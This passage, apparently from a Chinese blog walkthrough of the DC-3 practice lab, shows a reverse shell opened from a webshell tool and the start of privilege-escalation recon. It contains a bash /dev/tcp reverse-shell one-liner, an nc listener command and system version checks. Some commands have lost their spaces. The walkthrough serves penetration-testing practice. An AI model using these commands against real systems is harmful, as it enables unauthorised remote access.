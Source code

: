 ![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mblym9TZGLBnjvGfCtgiaH22Gxt5mkgOgnpC3wcZ2Wvc8jhLsM53pczw/640?wx_fmt=png)

连接成功

这个时候我们需要反弹 shell 一下

在 kali 中执行

```
#使用nc监听1234端口
nc-lvvp1234
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mZrv7icYJtHc17l0PFJ3vvDwaFEsXr51z6b82sPqtlEBCicVLTJsicQUow/640?wx_fmt=png)

在蚁剑的终端执行

```
bash-c'bash -i >& /dev/tcp/192.168.1.117/1234 0>&1'
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mdjhutHZhnyZibpL3HeztBVRWsS4ky8pPF3VdGPStq6mZMLicU56wbyiaw/640?wx_fmt=png)

我们在回到 kali 中可以看到

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mRFCqY9wG14T91s5QibdQWbqmpCmkSKAHUnvUibUoJt4FnyUdM3WJwpvg/640?wx_fmt=png)

这时候拿到了 shell

07 服务器操作
--------

现在咱们就需要进行提权操作，可是执行一圈之后发现很多提权操作都无法进行

sudo -l 没有权限执行

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mOVpyxVjSvG52sDs6AEYDggW7yrPS5fuZqp1SAjic6MKn4HQ9VRzT8ug/640?wx_fmt=png)

在服务器上查看一圈之后，看到了两个信息

执行下面代码，可以看到靶机的服务器版本号

```
#查看版本
cat /proc/version

Linux version 4.4.0-21-generic (buildd@lgw01-06) (gcc version 5.3.1

20160413 (Ubuntu 5.3.1-14ubuntu2) ) #37-Ubuntu SMP Mon Apr 18

18:34:49 UTC 2016
www-data@DC-3:/var/www/html/templates/beez3/html$ 

#查看发行版信息
cat /etc/issue

Ubuntu 16.04 LTS \n \l
```
